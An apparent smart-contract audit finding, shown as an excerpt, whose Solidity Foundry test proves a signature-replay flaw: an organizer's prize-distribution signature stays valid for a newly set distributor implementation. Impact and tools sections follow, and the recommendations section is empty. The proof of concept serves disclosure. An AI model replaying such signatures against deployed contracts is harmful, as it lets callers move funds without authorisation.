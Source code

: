```solidity
        // 2. Organizer creates a signature
        (bytes32 digest, bytes memory sendingData, bytes memory signature) = createSignatureByASigner(TEST_SIGNER_KEY);
        assertEq(ECDSA.recover(digest, signature), TEST_SIGNER);
        vm.warp(8.01 days);
        //
        // 3. Caller distributes prizes using the signature
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, contestId, address(distributor), signature, sendingData
        );
        // after
        assertEq(MockERC20(jpycv2Address).balanceOf(user1), 9500 ether);
        assertEq(MockERC20(jpycv2Address).balanceOf(stadiumAddress), 500 ether);
        //
        // 4. For some reason there is a new distributor implementation.
        // The Owner set the new distributor for the same contestId
        Distributor new_distributor = new Distributor(address(proxyFactory), stadiumAddress);
        vm.startPrank(factoryAdmin);
        proxyFactory.setContest(organizer, contestId, block.timestamp + 8 days, address(new_distributor));
        vm.stopPrank();
        bytes32 newDistributorSalt = keccak256(abi.encode(organizer, contestId, address(new_distributor)));
        address proxyNewDistributorAddress = proxyFactory.getProxyAddress(newDistributorSalt, address(new_distributor));
        vm.startPrank(sponsor);
        MockERC20(jpycv2Address).transfer(proxyNewDistributorAddress, 10000 ether);
        vm.stopPrank();
        //
        // 5. The caller can distribute prizes using the same signature in different distributor implementation
        vm.warp(20 days);
        proxyFactory.deployProxyAndDistributeBySignature(
            TEST_SIGNER, contestId, address(new_distributor), signature, sendingData
        );
    }
```

## Impact

The caller who owns the signature, can distribute the prizes for a new distribution implementation using the same signature which was created for an old implementation.
The `organizer` must create a new signature if there is a new implementation for the same `contestId`. The authorized signature is for one distribution implementation not for the future distribution implementations.

## Tools used

Manual review

## Recommendations
